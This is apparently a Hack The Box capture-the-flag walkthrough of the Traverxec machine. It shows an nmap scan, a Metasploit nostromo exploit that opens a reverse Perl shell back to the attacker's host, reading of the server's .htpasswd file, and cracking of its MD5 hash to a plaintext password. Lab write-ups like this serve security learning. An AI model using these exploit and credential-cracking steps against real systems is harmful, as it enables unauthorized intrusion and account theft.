

# [04 - Traverxec](https://app.hackthebox.com/machines/Traverxec)



## description
> 10.10.10.165

## walkthrough

### recon

```
$ nmap -sV -sC -A -Pn -p- traverxec.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-20 20:05 MDT
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.057s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

22 and 80. `nostromo`?

### 80

> Hello my name is David White.
> I create for the web.

pretty basic business for a website. see in calls to `/lib` almost certainly backed by PHP

there is a contact form
```
POST /empty.html HTTP/1.1
Host: traverxec.htb
User-Agent: Mozilla/5.0 (Linux; Android 8.1.0; Tesla_SP9_2 Build/O11019; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/89.0.4389.90 Mobile Safari/537.36 (Mobile; afma-sdk-a-v210402999.201004000.1)
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 73
Origin: http://traverxec.htb
Connection: close
Referer: http://traverxec.htb/

name=name&email=me%40mine.com&subject=subject&message=message+in+a+bottle
```

gets `No mail sent. Not yet finished. Please come back soon!`

```
msf6 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nostromo_code_exec

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/nostromo_code_exec) > show options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)

...
msf6 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.14.9:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.9:4445 -> 10.10.10.165:49436) at 2022-07-20 20:12:22 -0600

id -a
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

nice, a foothold

### www-data on up

```
pwd
/usr/bin
ls -la /var/www/html
ls -la /var/www
ls -la /home/
total 12
drwxr-xr-x  3 root  root  4096 Oct 25  2019 .
drwxr-xr-x 18 root  root  4096 Oct 25  2019 ..
drwx--x--x  5 david david 4096 Oct 25  2019 david
```

ok, his name is david

```
cat /etc/resolv.conf
domain localdomain
search localdomain
nameserver 10.211.55.1

find / -iname 'nhttpd*' 2>/dev/null
/usr/local/sbin/nhttpd
/usr/share/man/man8/nhttpd.8
/var/nostromo/logs/nhttpd.pid
/var/nostromo/conf/nhttpd.conf

ls -laR /var/nostromo
/var/nostromo:
total 24
drwxr-xr-x  6 root     root   4096 Oct 25  2019 .
drwxr-xr-x 12 root     root   4096 Oct 25  2019 ..
drwxr-xr-x  2 root     daemon 4096 Oct 27  2019 conf
drwxr-xr-x  6 root     daemon 4096 Oct 25  2019 htdocs
drwxr-xr-x  2 root     daemon 4096 Oct 25  2019 icons
drwxr-xr-x  2 www-data daemon 4096 Jul 20 22:02 logs

/var/nostromo/conf:
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27  2019 .
drwxr-xr-x 6 root root   4096 Oct 25  2019 ..
-rw-r--r-- 1 root bin      41 Oct 25  2019 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25  2019 mimes
-rw-r--r-- 1 root bin     498 Oct 25  2019 nhttpd.conf
```

```
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

time for some john

```
$ john_rockyou htpasswd
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
Use the "--format=md5crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:19 26.22% (ETA: 20:28:40) 0g/s 204422p/s 204422c/s 204422C/s se7en1287..sdnuorwi93
0g 0:00:00:45 62.59% (ETA: 20:28:39) 0g/s 196511p/s 196511c/s 196511C/s codycagle..codie77
Nowonly4me       (david)
```

ssh? no

```
cat /var/nostromo/conf/nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

## flag
```
user:
root:
```
